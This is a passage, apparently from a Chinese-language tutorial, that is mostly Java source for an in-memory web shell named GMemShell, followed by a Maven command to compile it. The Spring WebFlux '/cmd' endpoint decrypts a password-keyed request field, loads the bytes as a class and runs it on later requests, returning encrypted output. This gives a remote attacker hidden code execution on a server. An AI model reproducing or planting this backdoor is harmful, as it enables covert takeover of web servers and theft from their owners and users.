 ```java
        value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
      } catch (Exception e2) {
      }
    }
    return value;
  }
  
  @PostMapping("/cmd")
  public synchronized ResponseEntity cmd(
    ServerWebExchange pdata) {
    try {
      Object bufferStream = pdata.getFormData().flatMap(c -> {
        StringBuilder result = new StringBuilder();
        try {
          String id = c.getFirst(pass);
          byte[] data = x(base64Decode(id), false);
          if (store.get("payload") == null) {
            store.put("payload", defineClass(data));
          } else {
            store.put("parameters", data);
            java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
            Object f = ((Class) store.get("payload")).newInstance();
            f.equals(arrOut);
            f.equals(data);
            result.append(md5.substring(0, 16));
            f.toString();
            result.append(base64Encode(x(arrOut.toByteArray(), true)));
            result.append(md5.substring(16));
          }
        } catch (Exception ex) {
          result.append(ex.getMessage());
        }
        return Mono.just(result.toString());
      });
      return new ResponseEntity(bufferStream, HttpStatus.OK);
    } catch (Exception ex) {
      return new ResponseEntity(ex.getMessage(), HttpStatus.OK);
    }
  }
}
```

最后使用 Maven 进行编译，得到`GMemShell.class`

```bash
$ mvn compile
```